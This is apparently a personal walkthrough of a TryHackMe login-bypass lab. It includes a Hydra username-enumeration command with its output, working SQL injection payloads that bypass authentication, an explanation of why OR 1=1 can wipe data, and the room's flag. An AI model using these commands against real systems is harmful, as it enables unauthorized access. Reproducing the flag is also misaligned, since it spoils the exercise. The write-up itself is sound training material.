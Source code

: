 ----
Have you learned your lesson?
----

![](https://tryhackme-images.s3.amazonaws.com/room-icons/a6a36a91747be09047869b809dce926d.png)
### Task 1  Find the Flag

 Start Machine

This is a relatively easy machine that tries to teach you a lesson, but perhaps you've already learned the lesson? Let's find out.

Treat this box as if it were a real target and not a CTF.  

Get past the login screen and you will find the flag. There are no rabbit holes, no hidden files, just a login page and a flag. Good luck!

Target: http://MACHINE_IP/

Answer the questions below

```
https://twitter.com/0xTib3rius/status/1623734218302930946

https://portswigger.net/web-security/sql-injection#:~:text=return%20all%20items.-,Warning,-Take%20care%20when

#### Warning

Take care when injecting the condition `OR 1=1` into a SQL query. Although this may be harmless in the initial context you're injecting into, it's common for applications to use data from a single request in multiple different queries. If your condition reaches an `UPDATE` or `DELETE` statement, for example, this can result in an accidental loss of data.

┌──(witty㉿kali)-[~/Downloads]
└─$ hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p test 10.10.48.41 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-01 10:49:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://10.10.48.41:80/:username=^USER^&password=^PASS^:Invalid username and password.
[80][http-post-form] host: 10.10.48.41   login: martin   password: test
[80][http-post-form] host: 10.10.48.41   login: patrick   password: test
[80][http-post-form] host: 10.10.48.41   login: stuart   password: test
[80][http-post-form] host: 10.10.48.41   login: marcus   password: test
[80][http-post-form] host: 10.10.48.41   login: kelly   password: test
[80][http-post-form] host: 10.10.48.41   login: arnold   password: test
[80][http-post-form] host: 10.10.48.41   login: Martin   password: test
[80][http-post-form] host: 10.10.48.41   login: karen   password: test
[80][http-post-form] host: 10.10.48.41   login: Patrick   password: test

martin' AND '1'='1'-- -
any

THM{aab02c6b76bb752456a54c80c2d6fb1e}
Well done! You bypassed the login without deleting the flag!

If you're confused by this message, you probably didn't even try an SQL injection using something like OR 1=1. Good for you, you didn't need to learn the lesson.

For everyone else who had to reset the box...lesson learned?

Using OR 1=1 is risky and should rarely be used in real world engagements. Since it loads all rows of the table, it may not even bypass the login, if the login expects only 1 row to be returned. Loading all rows of a table can also cause performance issues on the database. However, the real danger of OR 1=1 is when it ends up in either an UPDATE or DELETE statement, since it will cause the modification or deletion of every row.

For example, consider that after logging a user in, the application re-uses the username input to update a user's login status: UPDATE users SET online=1 WHERE username='<username>';

A successful injection of OR 1=1 here would cause every user to appear online. A similar DELETE statement, possibly to delete prior session data, could wipe session data for all users of the application.

Consider using AND 1=1 as an alternative, with a valid input (in this case a valid username) to test / confirm SQL injection. 

or

test' union select null-- -

The username check solely verifies the presence of a single row resulting from the query. With the remaining portion of the query commented out, the password check is absent as well. Since UNION makes no sense in a DELETE statement, it got skipped too.
```

![[Pasted image 20230829211658.png]]
![[Pasted image 20230901095237.png]]

What's the flag?

*THM{aab02c6b76bb752456a54c80c2d6fb1e}*



[[Windows Reversing Intro]]